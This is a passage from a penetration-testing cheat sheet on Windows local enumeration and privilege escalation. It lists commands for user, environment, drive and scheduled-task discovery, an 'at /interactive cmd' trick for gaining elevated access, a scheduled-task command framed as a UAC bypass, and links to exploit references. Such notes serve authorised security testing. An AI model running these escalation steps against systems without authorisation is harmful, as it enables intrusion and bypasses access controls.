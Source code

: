 ```
whoami /all
```



#### set 
set shows all current environmental variables. Specific ones to look for are 

USERDOMAIN, USERNAME, USERPROFILE, HOMEPATH, LOGONSERVER, COMPUTERNAME, APPDATA, and ALLUSERPROFILE.

```
set
```

#### drives info

Must be an administrator to run this, but it lists the current drives on the system.

fsutil fsinfo drives

reg query HKLM /s /d /f "C:\* *.exe" | find /I "C:\" | find /V """"

#### Scheduled tasks



schtasks /query /fo LIST /v

Check this file:

c:\WINDOWS\SchedLgU.Txt

### check runas

```
runas administrator
```

#### AT command schedule an interactive command

Get the current time of the workstation

C:\> at 12:51 /interactive cmd

After the at command reconfirm your access privs

### schedule task to bypass UAC

https://pentestlab.blog/2017/05/03/uac-bypass-task-scheduler/

```
C:\>SchTasks /Create /SC DAILY /TN "NoUAC" /TR "C:\Users\User\Desktop\pentestlab3
.exe" /ST 23:36
```

### Scheduled tasks privescalation 

https://www.exploit-db.com/exploits/15589/
